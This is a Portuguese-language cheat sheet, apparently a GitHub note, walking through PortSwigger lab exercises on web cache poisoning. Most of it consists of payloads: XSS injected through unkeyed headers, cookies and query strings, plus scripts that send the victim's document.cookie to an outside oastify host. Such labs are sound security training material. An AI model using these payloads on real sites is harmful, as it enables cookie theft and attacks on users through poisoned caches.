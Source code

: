 # Web Cache Poisoning

Se você ver o header `X-Cache: hit` na resposta e a existência do arquivo `/resources/js/tracking.js`, provavelmente a aplicação está vulnerável a Web Cache Poisoning.

A primeira coisa a se testar quando ver esses recursos, é tentar refletir o domínio do exploit server atráves desses headers:
```
Host
X-Forwarded-Host
X-Host
X-Forwarded-Server
```

> [!IMPORTANT]
> Envie as requisições para envenenar o cache algumas vezes, pois o envenenamento pode não funcionar nas primeiras tentativas.

Se você conseguiu refletir o exploit server na resposta, vá para o servidor, mude o nome do arquivo para `/resources/js/tracking.js` e coloque um payload para roubar o cookie da vítima no Body.
```
document.write('<img src="http://burp.oastify.com?c='+document.cookie+'" />')
```

<br>

## Laboratórios

**Web Cache Poisoning with an Unkeyed Header**

Nesse caso você pode usar a exploração indicada acima ou colocar o payload direto no header.
```
X-Forwarded-Host: test.com"></script><script>alert(document.cookie)</script>//
```

<br>
<br>

**Web Cache Poisoning with an Unkeyed Cookie**
```
fehost=someString"-alert(1)-"someString
```

<br>
<br>

**Web Cache Poisoning with Multiple Headers**

Use a extensão Param Miner para identificar o header `X-Forwarded-Scheme`. Qualquer outro valor diferente de HTTPS vai retornar status 302 com um header `Location`.

Use esse header com o header `X-Forwarded-Host` para redirecionar o usuário para seu exploit server.
```
X-Forwarded-Scheme: http
X-Forwarded-Host: exploit-0ab300bf03adb37181e4d360010c007b.exploit-server.net
```

<br>
<br>

**Targeted Web Cache Poisoning using an Unknown Header**

Use a extensão Param Miner para ver que o header **X-Host** está sendo refletido em:
```
<script type="text/javascript" src="//example.com/resources/js/tracking.js">
```

Observe que o header Vary especifica o User-Agent, então precisamos saber o browser da vítima.

A feature de comentário permite tags HTML, então podemos usar isso para enumerar o navegador dela.
```
<img src="https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/foo" />
```

Agora podemos adicionar esse User-Agent na request para envenenar o cache corretamente.
```
GET / HTTP/1.1
Host: vulnerbale.net
User-Agent: THE SPECIAL USER-AGENT OF THE VICTIM
X-Host: attacker.com
```

<br>
<br>

**Web Cache Poisoning via an Unkeyed Query String**

Observe que você ainda recebe a resposta como cacheada ao incluir parâmetros na URL, ou seja, eles não fazem parte do cache key.

Adicione um parâmetro que quebre a string refletida e injete um XSS:
```
GET /?evil='/><script>alert(1)</script>
```

Versão adaptada:
```
GET /?evil='/><script>document.location='https://c2fsr4s3dcy11k6m80vnarmyjppgd7gv5.oastify.com/?cookies';</script>
```

<br>
<br>

**Web Cache Poisoning via an Unkeyed Query Parameter**

Observe que você recebe um cache miss toda vez que muda um parâmetro da URL.

Utilize a função "Guess GET parameters" do Param Miner para identificar que o parâmetro `utm_content` é aceito pela aplicação.

Confira que esse parâmetro não é um cache key e insira o payload para quebrar a string refletida:
```
GET /?utm_content='/><script>alert(1)</script>
```

<br>
<br>

**Parameter Cloaking**
```
/js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=alert(1)
```

<br>
<br>

**Web Cache Poisoning via a Fat GET Request**

Note que você pode mudar o nome da função a ser chamado passando o parâmetro `callback` usando uma Fat Request, mas a cache key ainda será o parâmetro da URL.
```
# REQUISIÇÃO
GET /js/geolocate.js?callback=setCountryCookie
…
callback=arbitraryFunction

# RESPOSTA
HTTP/1.1 200 OK
X-Cache-Key: /js/geolocate.js?callback=setCountryCookie
…
arbitraryFunction({"country" : "United Kingdom"})
```

<br>
<br>

**URL Normalization**

No Burp Repeater, navegue para um diretório inexistente como /random e observe que o caminho requisitado é refletido na mensagem de erro.

Adicione o payload:
```
GET /random</p><script>alert(1)</script><p>foo
```

Observe que se você requisitar esse caminho direto pelo navegador, o payload não execute porque está encodado em URL.

No Burp Repeater, envenene o cache com o seu payload e imediatamente carregue a URL no navegador.

Dessa vez, o `alert()` foi executado porque o payload encodado pelo navegador foi decodado pelo cache, causando um cache hit com a request anterior.

<br>

### Outros

**Poison Ambiguous Request**
```
Host: TARGET.net
Host: exploit.net
```
